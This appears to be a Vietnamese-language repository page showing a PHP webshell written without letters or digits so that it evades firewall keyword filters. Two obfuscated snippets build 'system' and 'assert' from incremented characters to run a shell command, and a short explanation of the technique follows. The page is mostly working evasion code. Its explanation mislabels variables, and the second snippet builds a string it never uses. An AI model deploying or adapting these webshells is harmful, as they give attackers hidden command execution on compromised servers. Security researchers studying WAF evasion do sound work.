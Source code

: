 # PHP webshell with no alphanumeric

Mục tiêu là tạo ra hàm system('lsls') với không kí tự chữ cái nào

```php
<?php 
$_=[];
$_=@"$_";
$_=$_[3];
$___="";
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;

$____="";
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; 
$____.=$__;

$___($____);
?>
```

- Tạo ra webshell bằng cách cộng kí tự và tạo ra chuỗi
- Giải thích cơ chế: 
    1, Tận dụng chuỗi ký tự ASCII:
      - Biến $__ bắt đầu với giá trị ASCII của ký tự đầu tiên ($_[3]) của chuỗi rỗng, sau đó được tăng dần bằng toán tử tăng ++ để đạt được các ký tự mong muốn (s, y, s, t, e, m và l, s).
    2, Ghép nối chuỗi để tạo hàm và tham số:
      - Biến $___ được xây dựng bằng cách ghép nối các ký tự để tạo thành hàm system.
      - Biến $____ được ghép nối các ký tự để tạo ra tham số ls.
    3, Gọi hàm:
      - Cuối cùng, $___($_) gọi hàm system với tham số là chuỗi ls, thực thi lệnh ls trên hệ thống.
- Tài liệu tham khảo: [https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/](https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/)


<!-- Webshell with assert -->
- assert(system(ls))

```php
<?php 
$_=[];
$_=@"$_";
$_=$_[3];
$___="";
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;

$____="";
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; 
$____.=$__;

$_____="";
$__=$_;
$_____.=$__;
$__ = $_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; 
$_____.=$__;
$__ = $_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; 
$_____.=$__;
$__ = $_;
$__++;$__++;$__++;$__++;
$_____.=$__;
$__ = $_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; 
$_____.=$__;
$__ = $_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$_____.=$__;

$______="";
$__=$_;
$__++;$__++;$__++; 
$______.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$______.=$__;
$__=$_;
$__++;$__++;$__++;$__++;
$______.=$__;

$_____($___($____));
?>
```
